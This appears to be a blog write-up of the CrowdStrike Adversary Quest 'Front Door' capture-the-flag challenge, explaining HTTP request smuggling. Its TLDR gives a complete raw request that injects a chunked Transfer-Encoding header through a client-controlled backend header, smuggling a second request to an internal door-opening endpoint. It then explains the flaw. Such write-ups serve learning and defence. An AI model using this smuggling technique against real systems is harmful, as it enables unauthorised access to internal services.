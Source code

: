 ```yaml
---
layout: post
title:  Front Door Crowdstrike Adversary Quest Writeup
image: /assets/img/crowdstrike.jpeg
date:   2022-08-29 21:52:19
tags:
- web
description: How to do HTTP smuggling/splitting / how to get multiple http request with one send / Adversary Quest Front Door Writeup Protective Penguin
categories:
- adversary quest
---
```


How to do HTTP smuggling/splitting / how to get multiple http request with one send / Adversary Quest Front Door Writeup Protective Penguin

Challenge:
![](/assets/img/2022-07-30-22-53-02.png)

TLDR:

```POST /api/status?door_id=2 HTTP/1.1
X-Backend-Info: {"Transfer-Encoding":"chunked","Content-Type":"application/x-www-form-urlencoded"}
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: f1337a40-4e8b-4db9-b7da-6cbb05a1dd6d
Host: 192.168.3.15:5000
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 308
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af

door_id=2

POST /api/door/open?door_id=2 HTTP/1.1
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Host: 127.0.0.1:5001
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

door_id=2
```

You have to get the content-Length well
or you're screwed and the request will wait forever cuz you injected a chunked message

The door number 17 has the flag

![](/assets/img/2022-07-30-22-51-58.png)

First request to check for site health:
![](/assets/img/2022-07-30-22-53-24.png)

Second request to unlock the door:
![](/assets/img/2022-07-30-22-54-01.png)

Third request to get the flag is illustrated first.

The vulnerability is in the ability to set a header in the request that the front end does to the back-end


![](/assets/img/2022-07-30-22-59-04.png)

The /api/status call is vulnerable as you can set the Transfer-Encoding":"chunked flag and send a second request which will be sent by the first server. Using that we send a second request to the door open api
![](/assets/img/2022-07-30-23-12-05.png) 